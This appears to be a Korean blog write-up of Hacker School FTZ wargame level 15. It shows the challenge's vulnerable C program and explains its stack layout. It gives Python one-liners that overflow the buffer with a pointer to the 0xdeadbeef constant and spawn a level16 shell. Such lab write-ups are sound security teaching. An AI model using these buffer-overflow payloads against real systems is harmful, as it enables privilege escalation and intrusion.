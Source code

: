 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 15"
description: "Do you know the pointer?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level15/1.jpg" | relative_url }}' alt='relative'>  

## 1) level15/ guess what입력해 로그인  
 
``` c
#include <stdio.h>

main()
{ int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```

<img data-action="zoom" src='{{ "assets/ftz/level15/2.png" | relative_url }}' alt='relative'>  

이제 힌트로 준 코드만 봐도 스택이 어떻게 구성되어 있을지 감이 옵니다.  
14번과 거의 동일하지만 15번에서는 check 변수가 포인터로 되어 있습니다.  

## 2) 그래도 스택 프레임 구조는 살펴보자  

<img data-action="zoom" src='{{ "assets/ftz/level15/3.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level15/4.png" | relative_url }}' alt='relative'>  

14번 문제에서는 &\[ebp-16\]에 0xdeadbeef가 저장되어 있어야 했지만,  
15번 문제에서는 &\[ebp-16\]에 0xdeadbeef가 저장되어 있는 주소가 저장되어 있어야 한다.  

## 3) 코드에 0xdeadbeef가 상수로 저장되어 있네?  

이 문제를 풀기 위해 입력값이 0xdeadbeef를 입력할 필요가 없습니다.  
왜냐하면 코드에 이미 쓰여있기 때문입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level15/5.png" | relative_url }}' alt='relative'>  

0xdeadbeef가 적혀있는 코드 주변을 살펴보니 0x080483e4 주소에 0xdeadbeef가 저장되어 있습니다.  

이 주소를 가지고 ./atm 프로그램에서 bof를 일으켜보겠습니다.  

``` bash
(python -c 'print "\x90"*40+"\xe4\x83\x04\x08"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level15/6.png" | relative_url }}' alt='relative'>  

shell이 실행되는 것을 확인할 수 있습니다.  

이 방법을 attackme 프로그램에도 적용해보겠습니다.  

## 4) attackme 프로그램에서 0xdeadbeef이 저장된 주소 찾아 bof 일으키고 level16 권한으로 shell 따기  

<img data-action="zoom" src='{{ "assets/ftz/level15/7.png" | relative_url }}' alt='relative'>  

attackme 프로그램도 gdb로 분석해 0xdeadbeef가 저장된 주소를 찾았습니다.  

``` bash
(python -c 'print "\x90"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level15/8.png" | relative_url }}' alt='relative'>  

attackme 프로그램을 분석하여 찾은 0xdeadbeef가 저장된 주소를  
입력 문자열에 넣어 실행한 결과 level16 권한으로 shell을 실행해 level16의 비밀번호를 획득할 수 있었습니다.    